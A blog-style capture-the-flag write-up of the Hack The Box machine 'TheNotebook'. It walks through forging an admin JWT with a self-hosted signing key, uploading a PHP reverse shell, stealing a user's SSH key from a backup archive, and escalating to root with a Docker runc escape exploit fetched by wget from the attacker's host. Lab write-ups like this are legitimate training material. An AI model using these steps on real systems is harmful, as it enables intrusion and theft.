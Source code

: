 ```yaml
---
layout: post
title: TheNotebook
published: true
---
```


**TheNotebook is a medium box from Hack The Box.**

### Enumeration

The first step is always a full port scan.

`nmap -sC -sV -v -p- -oA enum/nmap 10.10.10.230`

```
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http       nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
8000/tcp  open     tcpwrapped
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and HTTP open, plus a couple high ports that don't look very interesting. I'll check out the web server first.

![Pasted image 20210722125627](https://user-images.githubusercontent.com/60187707/127748133-8af42713-4ba7-4e3d-bb27-04f2eb05e8c0.png)

It's a simple HTML site, not much functionality to speak of. I can create a new user and publish simple notes.

![Pasted image 20210722125902](https://user-images.githubusercontent.com/60187707/127748173-26b986aa-35c5-442d-b9ec-c80de4116e63.png)

The URL(`http://10.10.10.230/f402dba3-2e5f-4cf3-80ef-2cacc5d30990/notes/6`) appears to be constructed of a unique user string representing the user's directory, and the notes are stored within a subdirectory. My test note is file number 6. Maybe there are other notes in that folder already?

![Pasted image 20210722125913](https://user-images.githubusercontent.com/60187707/127748219-68722166-33a0-4664-b7c2-3791009a306c.png)

Even if there were, I can't access them. Taking a look at my cookies reveals a bit more.

![Pasted image 20210722130257](https://user-images.githubusercontent.com/60187707/127748252-c8ac0a80-7d62-4c3f-b66d-0d738b0c34da.png)

Looks like my user's home directory is also the UUID cookie. The auth cookie is a bit more interesting, however.

![Pasted image 20210722175120](https://user-images.githubusercontent.com/60187707/127748457-511465b5-c0da-43e6-a2b4-f53b9aae43fd.png)

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRyb24iLCJlbWFpbCI6InRyb25AdHJvbi5odGIiLCJhZG1pbl9jYXAiOmZhbHNlfQ.BgX_ieiO4bzI_jJE32EleGOqLUhnPYe-HB0kSzaB-VCl7QfHxWUX2fkw_lfL7F9a6bIhTibnCvPjzUVEx0CWD0ZK7iypcN3SH-F-nq2eqJKOQ3cHLqv9Hm5y1kcUe9EcGxFevWsqQkSeeiL51iyV-oTcoQnDuDWaeKs9EctjOSndUHi51ljkw9vpyh19dYwuxU_yTbvnpw7k7cCiBACVhCY-tzb45qjkreC4_eSp5iXcVAbAWORC2zSb44N9NMdQAYfRBQX2DqKGeMqSiuBXCxwD9kCJhQWU7hd1HrrLaK-0ZzFl58CY_-060GvUV7cNzjj0oKdY3KsJ-Njbr_xh9zHD7Fj5O4PiEQ3oSM2MQRou1elsmU29hOWZJh5QsWcdTQ3BSpHOxrZJtJGeoXy2jmupwwQmGqYSExmgKu8uxD3Tk87BVO3xFbRP8zqXOt5kprOTZM1IdIrlt7-PFaOUOAih4rsUnZQ6GQTOorN6FOFMCdZ03OnvNf31QsmmNeAVTBvwdxRa_DXU8QVzYUrRVQfVuunOca_6WojnVYOt_PxPSZAOSBPhcH_icMXHzytvEJVwt6E33TZH8H0GzFaMWJUcoRKFEig6Ix5bnIHYFEG_8y2ggA2xoJMFhYVTkLNR1HLiImspL-rloOj252zJmAyKKXT8x_CCLfWGILpAvgA
```

At first glance it just looks like a random string, but I base64 decoded it, just to see what would happen:

![Pasted image 20210722131547](https://user-images.githubusercontent.com/60187707/127748311-08f74bd6-a349-442d-925d-26a1e2934ecf.png)

There is some very promising information inside this cookie. I put it into the [JWT Debugger](https://jwt.io/) to make it a bit easier to parse.

![Pasted image 20210722134823](https://user-images.githubusercontent.com/60187707/127748433-f8ec3ffc-29a5-4c9e-8b34-7b6841d2b6b8.png)

### Exploitation
The auth cookie is a base64 encoded [JSON Web Token](https://jwt.io/introduction), that contains some user information, a permission boolean, as well as an encryption scheme. The key is signed by an RSA keypair, verified by the private key at http://localhost:7070/privKey.key.

In the course of enumeration web directories, I discovered an admin panel at thenotebook.htb/admin. I am unable to view it as my current user, but if I can generate a signed JWT assigning myself admin capablities, I may be able to. 

I generated myself a [JWK Key Pair](https://mkjwk.org/) according to the specified algorithm, created a token with `admin_cap = 1`, and signed that token with the keypair:

![Pasted image 20210722175003](https://user-images.githubusercontent.com/60187707/127748645-3c04ec14-b385-4365-850e-c99f24e600af.png)

The final step is to host the corresponding private key on my own web server.

`sudo python -m SimpleHTTPServer 80`

Paste the cookie into the cookie editor:

![Pasted image 20210722175120](https://user-images.githubusercontent.com/60187707/127748681-8b873962-e4ce-4793-b28d-cc823e73e09a.png)

Refresh the page and I can view the admin panel!

![Pasted image 20210722175155](https://user-images.githubusercontent.com/60187707/127748695-88e039e2-b8cd-4f46-8d5f-f360fc5bd797.png)

My user now has the ability to upload files. I uploaded a php reverse shell and clicked `View` to execute the payload:

![Pasted image 20210722175429](https://user-images.githubusercontent.com/60187707/127748735-1933d396-4005-43bd-b2b0-a9eed3f54d42.png)

I now have a shell on the box as `www-data`:

![Pasted image 20210722175351](https://user-images.githubusercontent.com/60187707/127748744-01d867f2-d368-4385-9339-c8cbc1d45f4b.png)

### Privilege Escalation

Upgrade my shell a bit with `python3 -c 'import pty; pty.spawn("/bin/bash")'`, and start poking around the filesystem.

In `/var/backups` there is an archive named `home.tar.gz` that I am able to read. I move it to `/tmp`, where I should have write access, and extract it.

![Pasted image 20210722180704](https://user-images.githubusercontent.com/60187707/127748854-fdb1a201-91f4-4881-8593-c296d2393b1d.png)

It appears to be backups of the entire `/home` directory. I can view `noah`'s files, specifically his private SSH key.

![Pasted image 20210722180729](https://user-images.githubusercontent.com/60187707/127748833-4b35bfc8-a3cc-4a58-b8e1-78b7e93ebe3c.png)

I can copy that over to my machine and use that to login as `noah`. Copy/paste into a file, change the permissions, and log in:

![Pasted image 20210722180818](https://user-images.githubusercontent.com/60187707/127748887-d31cd7f9-7987-4e66-a9f7-7e7e85d57590.png)

Now I'm on as `noah`. I don't have a password, but it doesn't hurt to check and see if I can run `sudo` with no password.

`sudo -l`
```
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

I can run a particular Docker command, but I can control the end of the command. Googling around for an exploit eventually turns up a [docker escape](https://github.com/Frichetten/CVE-2019-5736-PoC) Go exploit.

Once I configure the Go script with my payload and run it on the target, I'll be able to trigger it by calling `/bin/sh` on the container with `sudo`.

![Pasted image 20210723105525](https://user-images.githubusercontent.com/60187707/127749061-5781a7eb-a337-4219-bf5b-e9339193f5b9.png)

Change the script to set the SUID on `/bin/bash` and build it with `go build main.go`.

Host that file on my Python server, pull it down to the target, set it to be executable, and run it.

`wget http://10.10.14.22/main`

![Pasted image 20210723105644](https://user-images.githubusercontent.com/60187707/127749085-586778b7-ff77-4e1a-a868-5e351c0c9e5b.png)

The script exited with no apparent errors, so now I need to trigger it.

`sudo /usr/bin/docker exec -it webapp-dev01 sh`

![Pasted image 20210723105714](https://user-images.githubusercontent.com/60187707/127749108-5bd28f2f-0b31-445a-8397-4dca3e68234b.png)

With that complete, I can drop into a root shell with `bash -p`.









